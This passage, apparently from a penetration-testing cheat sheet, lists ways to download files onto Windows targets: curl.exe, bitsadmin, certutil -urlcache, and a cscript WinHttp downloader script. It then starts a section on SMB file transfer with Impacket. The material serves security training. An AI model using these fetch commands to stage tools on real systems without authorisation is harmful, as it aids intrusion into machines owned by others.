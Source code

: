 Windows 10 often includes curl.exe:
```default
# example 1
curl.exe --output index.html --url https://somehost.com
# example 2
curl.exe -o index.html https://somehost.com
```

Bitsadmin:
```default
bitsadmin /transfer myDownloadJob /download /priority normal http://somehost/somefile.zip c:\somefile.zip
```

Certutil:
```default
certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip
```

Cscript:

Create script file `wget.js`:
```default
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
WScript.Echo(WinHttpReq.ResponseText);

/* To save a binary file use this code instead of previous line
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile("out.bin");
*/
```
Execute:
```default
cscript /nologo wget.js http://example.com
```


## SMB
```bash
        (>,                      
    ,<)oo |\                     
   / 88 "}| \                    
  | `., ., ,'  (      *          
   `-.'`')'    )\ ) (  `     (   
      ) /     (()/( )\))(  ( )\  
     / (__,_   /(_)|(_)()\ )((_) 
    |   (-,/  (_)) (_()((_|(_)_  
  .'    ) /   / __||  \/  || _ ) 
   `._,\ '`-  \__ \| |\/| || _ \ 
       `\     |___/|_|  |_||___/ 
       -`'                       
```
SMB (or Samba) is the preffered choice of anyone who has to work with Windows targets. The brazillian dancer is incredibly easy to use, you can just use the Windows `copy` command to transfer files to the target. Thanks to the Impacket project you can also use your regular Kali Linux machine to interact with SMB servers and even host your own SMB server on the fly.
